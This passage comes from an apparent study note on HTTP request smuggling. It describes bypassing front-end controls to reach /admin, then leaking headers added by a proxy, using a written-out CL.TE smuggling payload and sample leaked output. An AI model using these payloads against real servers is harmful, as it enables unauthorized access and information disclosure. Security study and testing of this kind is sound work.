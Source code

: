 🔎 **Front-end sees:** two requests to `/home`.  
🔎 **Back-end sees:** `/home` + `/admin`.

Result → Attacker gains unauthorized access to `/admin`.

---

## 2️. Reveal Front-End Request Rewriting

### 💡 Why It Works

- Proxies often rewrite requests:
    
    - Add **TLS info** (`X-TLS-Version`, `X-TLS-Cipher`).
        
    - Add **IP headers** (`X-Forwarded-For`).
        
    - Add **user/session headers**.
        
- Smuggling lets you **reflect rewritten request into a parameter**, exposing hidden headers.
    

### 🧪 Steps

1. Find a parameter that is **reflected in response**.
    
2. Put this parameter **last** in request body.
    
3. Smuggle another request after it.
    

### 🧪 Payload Example

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
```

Result → Reflected response leaks headers like:

```http
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Version: TLSv1.2
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
```
